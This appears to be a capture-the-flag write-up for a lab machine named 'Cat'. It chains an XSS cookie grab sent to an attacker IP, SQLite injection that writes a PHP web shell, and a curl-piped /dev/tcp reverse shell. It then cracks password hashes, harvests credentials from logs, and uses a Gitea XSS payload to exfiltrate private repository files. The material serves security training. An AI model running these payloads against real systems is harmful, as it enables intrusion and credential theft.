

## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.53 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We can see that ports 22 and 80 are open, which are the SSH and HTTP services respectively.

Now we add to `/etc/hosts` the domain `cat.htb` pointing to the target IP address

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

We try to get the SSH and HTTP services versions and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV -vvv 10.10.11.53 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.53:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Cat v1 
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Best Cat Competition
```

We use `gobuster` to enumerate the directories and files in the web server

```bash
gobuster dir -u http://cat.htb -w /usr/share/wordlists/dirb/common.txt -t 50
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cat.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/.htaccess            (Status: 403) [Size: 272]
/admin.php            (Status: 302) [Size: 1] [--> /join.php]
/.htpasswd            (Status: 403) [Size: 272]
/.hta                 (Status: 403) [Size: 272]
/css                  (Status: 301) [Size: 300] [--> http://cat.htb/css/]
/img                  (Status: 301) [Size: 300] [--> http://cat.htb/img/]
/index.php            (Status: 200) [Size: 3075]
/server-status        (Status: 403) [Size: 272]
/uploads              (Status: 301) [Size: 304] [--> http://cat.htb/uploads/]
Progress: 4614 / 4615 (99.98%)[ERROR] Get "http://cat.htb/trailer": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4614 / 4615 (99.98%)
[ERROR] Get "http://cat.htb/training": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
===============================================================
Finished
===============================================================
```

We can see that there is a `.git` directory, which may contain sensitive information. We can clone the repository using `git-dumper`:

```bash
python git_dumper.py http://cat.htb/ dump
```

Now we have access to all files.

- We can see there is a `sqlite` database in `/database/cat.db`

- User `axel` has admin privileges

- Username input is not sanitized, so we can XSS inject the username to get the admin session cookie

## User Exploitation

We create a new user `<script>window.location="http://10.10.14.10:4444/user?c="+document.cookie;</script>` and set up a listener on our machine to capture the cookie

```bash
nc -lvnp 4444
```

When we access the page and create a new cat registration, admin will be redirected to our listener with the cookie value. The request looks like this:
```
GET /user?c=PHPSESSID=30dbpvg37skakge4iegpltblaa HTTP/1.1
Host: 10.10.14.10:4444
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://cat.htb/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

We can set the cookie in our browser and access the admin page at `http://cat.htb/admin.php`. 
Now we can see all the cat registrations and approve/deny them.

We find a possible SQL injection in the cat name field in the `accept_cat.php` file:

```php
$cat_name = $_POST['catName'];
$catId = $_POST['catId'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

We can use `burp suite` to change the cat name and exploit the SQL injection. We will use a payload to create arbitrary files on the server. The payload is as follows:
```
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Cookie: PHPSESSID=30dbpvg37skakge4iegpltblaa 

catName=');ATTACH DATABASE '/var/www/cat.htb/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--&catId=1
```
We can then access the web shell at `http://cat.htb/lol.php`. We can execute commands using the `cmd` parameter, for example:

```bash
curl 'http://cat.htb/lol.php?cmd=whoami'
www-data
```

As we want a reverse shell, we create a simple HTTP server on our machine to host the reverse shell script:

```bash
echo '
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.10/443 0>&1' > shell.sh
python3 -m http.server 80
```

Then we set up a listener on port 443 to catch the reverse shell:
```bash
nc -lvnp 443
```

From the web shell, we execute the reverse shell script:
```bash
curl http://cat.htb/lol.php?cmd=curl%20http://10.10.14.10/shell.sh|bash
whoami
```
```
www-data
```

We can see that we are `www-data`.

We check the web app database (`/database/cat.db`) for any sensitive information. We use `sqlite3` to open the database and dump all data:
```bash
sqlite3 /database/cat.db .dump
```
```sql
INSERT INTO users VALUES(1,'axel','axel2017@gmail.com','d1bbba3670feb9435c9841e46e60ee2f');
INSERT INTO users VALUES(2,'rosa','rosamendoza485@gmail.com','ac369922d560f17d6eeb8b2c7dec498c');
INSERT INTO users VALUES(3,'robert','robertcervantes2000@gmail.com','42846631708f69c00ec0c0a8aa4a92ad');
INSERT INTO users VALUES(4,'fabian','fabiancarachure2323@gmail.com','39e153e825c4a3d314a0dc7f7475ddbe');
INSERT INTO users VALUES(5,'jerryson','jerrysonC343@gmail.com','781593e060f8d065cd7281c5ec5b4b86');
INSERT INTO users VALUES(6,'larry','larryP5656@gmail.com','1b6dce240bbfbc0905a664ad199e18f8');
INSERT INTO users VALUES(7,'royer','royer.royer2323@gmail.com','c598f6b844a36fa7836fba0835f1f6');
INSERT INTO users VALUES(8,'peter','peterCC456@gmail.com','e41ccefa439fc454f7eadbf1f139ed8a');
INSERT INTO users VALUES(9,'angel','angel234g@gmail.com','24a8ec003ac2e1b3c5953a6f95f8f565');
INSERT INTO users VALUES(10,'jobert','jobert2020@gmail.com','88e4dceccd48820cf77b5cf6c08698ad');
```

We can see that there are some hashed passwords. We copy the hashes to a file and use `hashcat` to crack them. We use the `rockyou.txt` wordlist for this:

```bash
echo "
axel:d1bbba3670feb9435c9841e46e60ee2f
rosa:ac369922d560f17d6eeb8b2c7dec498c
robert:42846631708f69c00ec0c0a8aa4a92ad
fabian:39e153e825c4a3d314a0dc7f7475ddbe
jerryson:781593e060f8d065cd7281c5ec5b4b86
larry:1b6dce240bbfbc0905a664ad199e18f8
royer:c598f6b844a36fa7836fba0835f1f6
peter:e41ccefa439fc454f7eadbf1f139ed8a
angel:24a8ec003ac2e1b3c5953a6f95f8f565
jobert:88e4dceccd48820cf77b5cf6c08698ad
" > hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --username
```
```
rosa:soyunaprincesarosa
```

We find that the user `rosa` has a weak password. We try to SSH into the machine using the credentials `rosa:soyunaprincesarosa`:

```bash
ssh rosa@cat.htb
Password: soyunaprincesarosa
whoami
```
```
rosa
```

We check `rosa`'s groups and see that she is part of the `adm` group:
```bash
id
```
```
uid=1001(rosa) gid=1001(rosa) groups=1001(rosa),4(adm)
```

We will look for any files that `adm` can read. 
```bash
find / -group adm -type f 2>/dev/null
```
```
...
/var/log/apache2/access.log
/var/log/apache2/error.log
...
```

We find the file `/var/log/apache2/access.log` which is readable by `adm`. 
```bash
cat /var/log/apache2/access.log
```
```
loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q
```

We find credentials for `axel` user in the web server. We check if these credentials work also for user `axel` in the linux system. We try to switch to user `axel` using `su`:

```bash
su axel
Password: aNdZwgC4tI9gnVXv_e3Q
whoami
```
```
axel
```

This user can read the user flag in its home directory:
```bash
cat /home/axel/user.txt
```
```
user flag value
```

## Root Exploitation


We check `axel`'s mailbox for any sensitive information:
```bash
cat /var/mail/axel
```
```
From rosa@cat.htb  Sat Sep 28 04:51:50 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
	by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S4pnXk001592
	for <axel@cat.htb>; Sat, 28 Sep 2024 04:51:50 GMT
Received: (from rosa@localhost)
	by cat.htb (8.15.2/8.15.2/Submit) id 48S4pnlT001591
	for axel@localhost; Sat, 28 Sep 2024 04:51:49 GMT
Date: Sat, 28 Sep 2024 04:51:49 GMT
From: rosa@cat.htb
Message-Id: <202409280451.48S4pnlT001591@cat.htb>
Subject: New cat services

Hi Axel,

We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository. Jobert will check if it is a promising service that we can develop.

Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.

From rosa@cat.htb  Sat Sep 28 05:05:28 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
	by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S55SRY002268
	for <axel@cat.htb>; Sat, 28 Sep 2024 05:05:28 GMT
Received: (from rosa@localhost)
	by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
	for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: <202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.
```

We will create a SSH tunnel to access the Gitea service running on port 3000:
```bash
ssh -L 3000:localhost:3000 axel@cat.htb
```

We can now access the Gitea service at `http://localhost:3000`. We log in with the credentials `axel:aNdZwgC4tI9gnVXv_e3Q`. We try to access the `Employee-management` repository, but `axel` does not have the necessary permissions.


We check Gitea version and see it is `1.22.0`. We search for any known vulnerabilities in this version and find an RCE vulnerability tracked as `CVE-2024-6886`.

We can exploit this vulnerability using the following payload:

1. Log in to Gitea as `axel`
2. Create a new repository
3. Go to `Settings` > `Description` > Write `<a href=javascript:alert()>XSS test</a>` > Save
4. Go back and click the repo description, we should see an alert pop up


We can change the payload and wait for jobert to click on it. We will use a simple reverse shell payload encoded in base64:

```js
<a 
    href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(data => data.text()).then(res => fetch("http://10.10.14.10/?c=" + btoa(res)))'
>
    XSS test
</a>

```

We try to fetch the `README.json` protected file from the `Employee-management` repository to our listener. We set up a listener on our machine to capture the data:
```bash
python3 -m http.server 80
```

Then we send an email to `jobert@localhost` to see if we get a response via our listener:
```bash
echo -e "Subject: New cat services\n\http://localhost:3000/axel/test" | sendmail jobert@localhost
```
```
GET /?c=IyBFbXBsb3llZSBNYW5hZ2VtZW50ClNpdGUgdW5kZXIgY29uc3RydWN0aW9uLiBBdXRob3JpemVkIHVzZXI6IGFkbWluLiBObyB2aXNpYmlsaXR5IG9yIHVwZGF0ZXMgdmlzaWJsZSB0byBlbXBsb3llZXMu HTTP/1.1" 200 -
```

We decode the base64 string to get the web shell code:
```bash
echo "IyBFbXBsb3llZSBNYW5hZ2VtZW50ClNpdGUgdW5kZXIgY29uc3RydWN0aW9uLiBBdXRob3JpemVkIHVzZXI6IGFkbWluLiBObyB2aXNpYmlsaXR5IG9yIHVwZGF0ZXMgdmlzaWJsZSB0byBlbXBsb3llZXMu" | base64 -d
```
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

We try to fetch other possible files in the repository, such as `index.php`. We change the repository description to:
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(data => data.text()).then(res => fetch("http://10.10.14.10/?c=" + btoa(res)))'>XSS test</a>
```
We send the email again to jobert:
```bash
echo -e "Subject: New cat services\n\http://localhost:3000/axel/test" | sendmail jobert@localhost
```
```
GET /?c=PD9waHAKJHZhbGlkX3VzZXJuYW1lID0gJ2FkbWluJzsKJHZhbGlkX3Bhc3N3b3JkID0gJ0lLdzc1ZVIwTVI3Q01JeGhIMCc7CgppZiAoIWlzc2V0KCRfU0VSVkVSWydQSFBfQVVUSF9VU0VSJ10pIHx8ICFpc3NldCgkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSkgfHwgCiAgICAkX1NFUlZFUlsnUEhQX0FVVEhfVVNFUiddICE9ICR2YWxpZF91c2VybmFtZSB8fCAkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSAhPSAkdmFsaWRfcGFzc3dvcmQpIHsKICAgIAogICAgaGVhZGVyKCdXV1ctQXV0aGVudGljYXRlOiBCYXNpYyByZWFsbT0iRW1wbG95ZWUgTWFuYWdlbWVudCInKTsKICAgIGhlYWRlcignSFRUUC8xLjAgNDAxIFVuYXV0aG9yaXplZCcpOwogICAgZXhpdDsKfQoKaGVhZGVyKCdMb2NhdGlvbjogZGFzaGJvYXJkLnBocCcpOwpleGl0Owo/PgoK HTTP/1.1" 200 -
```

We decode the base64 string to get the web shell code:

```bash
echo "PD9waHAKJHZhbGlkX3VzZXJuYW1lID0gJ2FkbWluJzsKJHZhbGlkX3Bhc3N3b3JkID0gJ0lLdzc1ZVIwTVI3Q01JeGhIMCc7CgppZiAoIWlzc2V0KCRfU0VSVkVSWydQSFBfQVVUSF9VU0VSJ10pIHx8ICFpc3NldCgkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSkgfHwgCiAgICAkX1NFUlZFUlsnUEhQX0FVVEhfVVNFUiddICE9ICR2YWxpZF91c2VybmFtZSB8fCAkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSAhPSAkdmFsaWRfcGFzc3dvcmQpIHsKICAgIAogICAgaGVhZGVyKCdXV1ctQXV0aGVudGljYXRlOiBCYXNpYyByZWFsbT0iRW1wbG95ZWUgTWFuYWdlbWVudCInKTsKICAgIGhlYWRlcignSFRUUC8xLjAgNDAxIFVuYXV0aG9yaXplZCcpOwogICAgZXhpdDsKfQoKaGVhZGVyKCdMb2NhdGlvbjogZGFzaGJvYXJkLnBocCcpOwpleGl0Owo/PgoK" | base64 -d
```
```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```

We find credentials for the `admin` user. We will try to switch to user `root` using `su`:

```bash
su root
Password: IKw75eR0MR7CMIxhH0
whoami
```
```
root
```

We can now read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
In this write-up, we successfully exploited the Cat machine by leveraging various vulnerabilities, including XSS, SQL injection, and an RCE in Gitea. We were able to escalate our privileges from a low-privileged user to root and retrieve both user and root flags. This exercise highlights the importance of proper input validation, secure coding practices, and regular updates to software to mitigate potential vulnerabilities.